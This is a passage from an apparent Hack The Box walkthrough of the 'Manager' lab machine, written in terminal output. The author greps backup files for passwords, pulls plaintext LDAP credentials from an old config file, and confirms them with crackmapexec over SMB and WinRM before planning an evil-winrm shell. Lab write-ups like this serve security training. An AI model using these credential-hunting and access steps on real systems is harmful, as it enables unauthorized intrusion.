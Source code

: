 ```bash
┌──(kali㉿kali)-[~/htb/backup]
└─$ grep -i 'password' -r .

./js/jquery-3.4.1.min.js:!function(e,t){"use strict";"object"==typeof modul
<SNIP>
./.old-conf.xml:         <password>R4v3nBe5tD3veloP3r!123</password>

┌──(kali㉿kali)-[~/htb/backup]
└─$ cat .old-conf.xml 
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>
```

Here I can find `raven`'s password : `R4v3nBe5tD3veloP3r!123`
Let's test what I can do with this credential.

```bash
┌──(kali㉿kali)-[~/htb/backup]
└─$ crackmapexec smb 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 

┌──(kali㉿kali)-[~/htb/backup]
└─$ crackmapexec winrm 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
SMB         10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
HTTP        10.10.11.236    5985   DC01             [*] http://10.10.11.236:5985/wsman
WINRM       10.10.11.236    5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)
```

At this time, this credential is working on `winrm` as well. So we can open a shell through `evil-winrm` this time.

